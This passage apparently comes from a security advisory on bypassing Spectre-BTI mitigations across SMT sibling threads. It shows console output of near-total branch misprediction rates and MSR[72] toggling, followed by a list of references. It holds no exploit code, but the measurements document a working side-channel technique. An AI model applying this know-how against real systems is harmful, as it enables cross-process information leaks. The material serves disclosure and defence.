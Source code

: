
### No mitigation

Then we execute the victim code on either core 0 or its sibling thread (core 4 in this case). For the control victim code the results are:


```console
Testing victim on core 0: 
Rate: 998/1000  MSR[72]=0
Rate: 997/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 999/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Total mispredict rate: 9994/10000 (99.94 %)

real	0m0,695s
user	0m0,174s
sys	0m0,000s

Testing victim on core 4: 
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Rate: 1000/1000  MSR[72]=0
Total mispredict rate: 10000/10000 (100.00 %)

real	0m0,744s
user	0m0,235s
sys	0m0,000s
```

In this case, we observed a misprediction rate of 95%+, indicating that the attacker process can poison the victim branch.


Disabling the (in this case, the control, it was already disabled) mitigations using the MSR (obviously) returns similar results:


```
Testing victim-nospecctrl on core 0: 
current value msr[72]=0 on core 0
writing msr[72]=0 on core 0 
current value msr[72]=0 on core 0
Rate: 1000/1000  MSR[72]=0
[...]
Total misspredict rate: 9999/10000 (99.99 %)
current value msr[72]=0 on core 0
real	0m0,691s
user	0m0,168s
sys	0m0,000s

Testing victim-nospecctrl on core 4: 
current value msr[72]=0 on core 4
writing msr[72]=0 on core 4 
```

[^1]: “Branch Target Injection". Link: [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/branch-target-injection.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/branch-target-injection.html)
[^2]: “The Linux kernel user-space API guide: Speculation Control”.  Link: [https://docs.kernel.org/userspace-api/spec_ctrl.html](https://docs.kernel.org/userspace-api/spec_ctrl.html) 
[^3]: “Exec ASLR: Abusing Intel Branch Predictors to bypass ASLR”. Link: [https://github.com/es0j/ExecASLR-ekoparty](https://github.com/es0j/ExecASLR-ekoparty)
[^4]: “Reverse Branch Target Buffer Poisoning”.  Link: [https://cos.ufrj.br/uploadfile/publicacao/3061.pdf](https://cos.ufrj.br/uploadfile/publicacao/3061.pdf) 
[^5]: "RET2ASLR - Leaking ASLR from return instructions" Link:[https://github.com/google/security-research/tree/master/pocs/cpus/ret2aslr](https://github.com/google/security-research/tree/master/pocs/cpus/ret2aslr)
[^6]: "Speculative Execution Side Channel Mitigations" Link: [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/technical-documentation/speculative-execution-side-channel-mitigations.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/technical-documentation/speculative-execution-side-channel-mitigations.html)
[^7]: “The Linux kernel user-space API guide: Speculation Control”.  Link:[https://www.kernel.org/doc/html/latest/userspace-api/spec_ctrl.html](https://www.kernel.org/doc/html/latest/userspace-api/spec_ctrl.html)
[^8]: "Spectre Meltdown Checker" Link:[https://github.com/speed47/spectre-meltdown-checker](https://github.com/speed47/spectre-meltdown-checker)
[^9]: "Intel® 64 and IA-32 Architectures Software Developer’s Manual Volume 4: Model-Specific Registers" Link:[https://www.intel.com/content/dam/develop/external/us/en/documents/335592-sdm-vol-4.pdf](https://www.intel.com/content/dam/develop/external/us/en/documents/335592-sdm-vol-4.pdf)
[^10]: "Linux Source code" Link:[https://elixir.bootlin.com/linux/v5.15.65/source/arch/x86/kernel/cpu/bugs.c#L1900](https://elixir.bootlin.com/linux/v5.15.65/source/arch/x86/kernel/cpu/bugs.c#L1900)
[^11]: "Seccomp" Link:[https://man7.org/linux/man-pages/man2/seccomp.2.html](https://man7.org/linux/man-pages/man2/seccomp.2.html)
[^12]: "Linux Source code" Link: [https://elixir.bootlin.com/linux/v5.15.65/source/arch/x86/kernel/cpu/bugs.c#L1970](https://elixir.bootlin.com/linux/v5.15.65/source/arch/x86/kernel/cpu/bugs.c#L1970)
[^13]: "AMD64 Architecture Programmer’s Manual Volume 2:" Link:[https://www.amd.com/system/files/TechDocs/24593.pdf](https://www.amd.com/system/files/TechDocs/24593.pdf)
[^14]: “Speculative Execution Side Channel Mitigations”. Link:[https://www.intel.com/content/dam/develop/external/us/en/documents/336996-speculative-execution-side-channel-mitigations.pdf](https://www.intel.com/content/dam/develop/external/us/en/documents/336996-speculative-execution-side-channel-mitigations.pdf)
[^15]: “CVE 2023-0045 Bypassing Spectre-BTI User Space Mitigations”. Link:[https://github.com/google/security-research/security/advisories/GHSA-9x5g-vmxf-4qj8](https://github.com/google/security-research/security/advisories/GHSA-9x5g-vmxf-4qj8)
[^16]: “CVE 2023-1998 Spectre v2 SMT mitigations problem”. Link:[https://github.com/google/security-research/security/advisories/GHSA-mj4w-6495-6crx](https://github.com/google/security-research/security/advisories/GHSA-mj4w-6495-6crx)